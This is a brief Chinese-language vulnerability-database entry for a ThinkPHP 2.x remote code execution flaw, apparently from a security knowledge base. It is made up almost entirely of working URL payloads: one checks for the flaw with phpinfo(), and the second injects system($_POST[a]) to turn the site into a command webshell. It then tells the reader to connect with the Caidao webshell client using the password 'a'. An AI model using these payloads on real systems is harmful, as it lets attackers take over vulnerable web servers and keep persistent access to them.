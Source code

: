```yaml
---
title: 'Thinkphp-2.X-RCE漏洞'
date: Wed, 26 Aug 2020 03:54:30 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

Thinkphp 2.X

### 漏洞POC

```
/index.php?s=/index/index/xxx/${@phpinfo()}
```

![](Thinkphp-2.X-RCE漏洞.assets/1627364296438965.jpg)

```
/index.php?s=/index/index/xxx/${@print(system($_POST[a]))}
```

菜刀连接,密码为a。